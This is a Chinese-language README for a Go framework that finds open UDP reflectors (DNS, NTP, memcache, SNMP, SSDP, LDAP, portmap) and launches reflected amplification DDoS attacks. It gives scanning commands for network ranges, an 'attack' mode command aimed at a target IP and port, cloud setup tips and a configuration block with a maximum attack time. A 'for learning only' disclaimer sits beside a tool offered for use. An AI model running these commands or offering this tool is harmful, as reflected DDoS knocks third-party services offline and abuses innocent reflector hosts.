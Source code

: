 # Drdos Framework

[README-EN](https://github.com/chriskaliX/drdos-framework/blob/master/README-EN.md)

Drdos Framework是我学习反射型ddos的产出，我尝试将它设计为一个真正意义上的框架。这是它运行的图片。

![image](https://github.com/chriskaliX/drdos-framework/blob/master/imgs/demo.png)

## 郑重申明

**该框架仅用于学习，禁止用于其他任何非法用途**

## 介绍

Drdos框架是一个既可以用来校验IP是否存在drdos漏洞，又可以用来进行一些攻击测试的框架

## 环境准备

1. 一台在公网的Linux服务器
2. Golang环境

## 使用

1. `go get github.com/google/gopacket`
2. 运行`go run main.go --help`来查看帮助

check模式

```shell
go run main.go -m c -s xx.xx.xx.xx -type dns -api -o test.txt # 使用api查询，需要在config.go中进行修改
go run main.go -m c -s xx.xx.xx.xx -type dns -range xx.xx.xx.xx/24 -o test.txt # 扫描指定网段
go run main.go -m c -s xx.xx.xx.xx -type dns -f input.txt -o test.txt # 从文件中获取IP地址
```

attack模式

```shell
go run main.go -m a -f xxx -type dns -t xx.xx.xx.xx -p xx  # 要注意如果攻击没有效果，可能是前面有NAT
```

mix模式(觉得没有必要了，后期会逐步移除掉)

[*] 注意 : 在check和mix模式下，-o输出的文件在`/data/results/`目录下.

### 一些帮助

1. `--type` 应该为 `dns`,`mem`,`ntp`,`snmp`,`ssdp`,`portmap`,`ldap` 中的一种
2. 如果在阿里云上使用，记得在安全组上允许UDP，并把IP(即`-s`选项)设为`eth0`的网卡IP(而不是公网IP)

### 配置

默认的配置文件在 `config/config.go`，下面是默认的配置

```go
package config

const (
	ListenPort     = 50000 // Check ip列表的时候的监听端口
	Threshold      = 100   // 当包的大小大于阈值的时候，计数接受
	WaitTime       = 10    // 全部发包完毕后，等待其余数据包的时间
	Blacklists     = "/data/blacklists/blacklists"
	MaxAtktime     = 300 // 最大攻击时间
	AttackInterval = 0
)
```

## 支持的协议

|Port|Protocol|
|:-:|:-:|
|53|dns|
|111|portmap|
|123|ntp|
|161|snmp|
|389|ldap|
|1900|ssdp|
|11211|memcache|

## 更新计划

1. HTTP API
2. ~~SHODAN~~| FOFA API
3. ~~Blacklist of attack~~
4. Improve response check
5. Support more protocol
6. Use sqlite to save data
